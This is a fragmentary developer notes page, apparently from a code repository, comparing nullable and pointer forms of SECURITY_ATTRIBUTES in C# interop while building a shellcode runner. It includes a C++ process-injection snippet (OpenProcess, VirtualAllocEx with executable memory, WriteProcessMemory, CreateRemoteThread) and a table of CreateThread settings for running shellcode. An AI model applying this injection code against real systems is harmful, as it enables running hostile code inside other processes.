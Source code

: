3. **Memory Management**:
   - `winmdroot.Security.SECURITY_ATTRIBUTES?` relies on the garbage collector to manage memory, reducing the risk of memory leaks and pointer errors.
   - `winmdroot.Security.SECURITY_ATTRIBUTES*` requires manual memory management and care to avoid memory leaks, invalid memory access, and other pointer-related errors.

### When to Use Each

- **Use `winmdroot.Security.SECURITY_ATTRIBUTES?`** when you want the safety and convenience of a nullable type in managed code.
- **Use `winmdroot.Security.SECURITY_ATTRIBUTES*`** when you need to perform low-level memory manipulations or interact with unmanaged code, and you are comfortable handling pointers and memory management manually.

Choosing between these two depends on the specific requirements of your application and your comfort level with handling pointers and memory directly.

### C++ code example

- https://www.ired.team/offensive-security/code-injection-process-injection/process-injection
```c++
	HANDLE processHandle;
	HANDLE remoteThread;
	PVOID remoteBuffer;

	printf("Injecting to PID: %i", atoi(argv[1]));
	processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
	remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
	CloseHandle(processHandle);

    return 0;
```    

### CreateThread function value settings in C\#


 IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
CreateThread(winmdroot.Security.SECURITY_ATTRIBUTES? lpThreadAttributes, UIntPtr dwStackSize, winmdroot.System.Threading.LPTHREAD_START_ROUTINE lpStartAddress, void* lpParameter, winmdroot.System.Threading.THREAD_CREATION_FLAGS dwCreationFlags, uint* lpThreadId)

| Argument Name      |          Argument Type |  Setting for shellcode runner |
| ------------------ | ---------------------: | ----------------------------: |
| lpThreadAttributes |                        |                          null |
| dwStackSize        |                UIntPtr |                    (UIntPtr)0 |
| lpStartAddress     | LPTHREAD_START_ROUTINE |                               |
| lpParameter        |                  void* |                               |
| dwCreationFlags    |  THREAD_CREATION_FLAGS | THREAD_CREATE_RUN_IMMEDIATELY |
| lpThreadId         |                  uint* |                               |
### Scratch all of that...figured this out
